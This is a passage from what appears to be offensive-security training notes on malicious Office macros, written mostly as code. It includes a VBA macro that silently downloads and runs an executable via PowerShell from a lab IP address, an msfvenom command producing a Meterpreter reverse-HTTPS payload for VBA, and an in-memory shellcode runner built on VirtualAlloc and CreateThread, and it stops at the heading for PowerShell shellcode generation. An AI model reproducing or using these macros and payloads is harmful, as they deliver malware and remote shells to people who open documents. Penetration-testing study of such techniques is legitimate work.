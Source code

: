 Use Powershell to download a malicious file, such as an executable, and execute it. Uses WScript Shell. [Full source](../src/visualbasic/PshDownloadExec.vb).

```
Sub MyMacro()
	Dim str As String
	str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe', 'msfstaged.exe')"
	Shell str, vbHide
	Dim exePath As String
	exePath = ActiveDocument.Path + "\msfstaged.exe"
	Wait (2)
	Shell exePath, vbHide
End Sub
```

##### Office Shellcode Runners

Shellcode can be executed directly in the document macro via VBA by leveraging the Win32 API. 

###### Office MSF Shellcode Generation

```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f vbapplication
```

###### Office VBA In Memory Shellcode Exec via CreateThread

CreateThread can be used to execute the shellcode. Import the required Win32 APIs, use VirtualAlloc to place the shellcode, and CreateThread to execute. *Note, when the Word instance is closed, so to is the shell.*

[Full Source](../src/visualbasic/InMemoryWin32CreateThread.vb)

```
buf = Array(232,[...],213)

addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)

For counter = LBound(buf) To Ubound(buf)
    data = buf(counter)
    res = RtlMoveMemory(addr + counter, data, 1)
Next counter

res = CreateThread(0, 0, addr, 0, 0, 0)
```

##### Office VBA Shellcode Runner via PowerShell

Leverage VBA to execute PowerShell without saving to disk and as a child process. The child process allows the continuation of shellcode even after Word is closed.

Use VBA to download a Powershell script and execute it in memory. Using DllImportAttribute, Powershell can invoke unmanaged dynamic link libraries. 

###### Office MSF Powershell Shellcode Generation
